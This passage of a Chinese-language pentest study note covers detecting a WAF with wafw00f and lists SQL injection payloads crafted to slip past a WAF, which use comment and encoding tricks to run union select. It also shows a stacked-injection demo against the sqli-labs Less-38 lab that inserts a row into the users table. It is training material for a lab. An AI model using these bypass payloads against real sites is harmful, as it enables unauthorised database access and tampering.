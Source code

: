 ###### 命令：wafw00f 域名/IP

![img](https://img.yatjay.top/md/202203251651547.png)

### 部分 bypass sqlinject payload

```
id=1union/*%00*/%23a%0A/*!/*!select1,2,3*/;%23

id=-1union/*%00*/%23a%0A/*!/*!select%201,database%23x%0A(),3*/;%23

id=-1%20union%20/*!44509select*/%201,2,3%23

id=-1%20union%20/*!44509select*/%201,%23x%0A/*!database*/(),3%23

id=1/**&id=-1%20union%20select%201,2,3%23*/

id=-1%20union%20all%23%0a%20select%201,2,3%23

id=-1%20union%20all%23%0a%20select%201,%230%0Adatabase/**/(),3%23
```



# 案例演示

## Sqlilabs-Less38-堆叠注入(多语句)

在执行select时的sql语句为：`SELECT * FROM users WHERE id='$id' LIMIT 0,1`

正常提交id值：

![](https://img.yatjay.top/md/202203251651076.png)

可以直接构造如下的payload：

```sql
http://localhost/pentest/sqlilabs/Less-38/index.php?id=1';insert into users(id,username,password) values ('38','less38','hello')--+
```

![](https://img.yatjay.top/md/202203251651976.png)

再看数据表中的内容：可以看到less38已经添加

![](https://img.yatjay.top/md/202203251651989.png)



## WAF部署-安全狗,宝塔等waf搭建部署

安全狗：[📎safedogfwq_Windows_Help.pdf](https://www.yuque.com/attachments/yuque/0/2021/pdf/22078880/1628829165383-acc2ec9d-8d4e-4266-b2bb-cce9118fdf0e.pdf)
